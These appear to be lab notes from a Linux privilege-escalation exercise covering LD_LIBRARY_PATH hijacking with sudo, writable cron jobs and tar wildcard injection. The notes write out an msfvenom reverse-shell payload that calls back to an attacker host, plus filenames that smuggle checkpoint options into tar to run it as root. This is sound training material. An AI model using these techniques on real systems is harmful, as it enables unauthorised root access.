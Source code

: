 	sudo LD_LIBRARY_PATH=/tmp apache2

	A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the 		library_path.c code could be changed to make it work.
	
# Task 8 - Cron Jobs File Permissions

	Crons jobs are simply scripts that have been scheduled to run at specific times. A Cron Table file (crontabs) store the configuration for cron jobs which is stored @ /etc/crontab
	
	If a cron job file is configured in such a way that the account you have access to can write to it, then you can edit the file and add some bash code to send a reverse shell to a netcat session on your machine
	
	This shell of course will be a root shell because cron jobs must run as root given they perform functions on the system
	
# Task 9 - Cron Jobs PATH Environment Variable

	Question Answers
		'PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin'
		
# Task 10 - Cron Jobs Wildcards

	View the contents of the other cron job script:

	cat /usr/local/bin/compress.sh

	Note that the tar command is being run with a wildcard (*) in your home directory.

	Take a look at the GTFOBins page for tar. Note that tar has command line options that let you run other commands as part of a checkpoint feature.

	Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

	msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf

	Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:

	chmod +x /home/user/shell.elf

	Create these two files in /home/user:

	touch /home/user/--checkpoint=1
	touch /home/user/--checkpoint-action=exec=shell.elf

	When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options 		rather than filenames.

	Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.
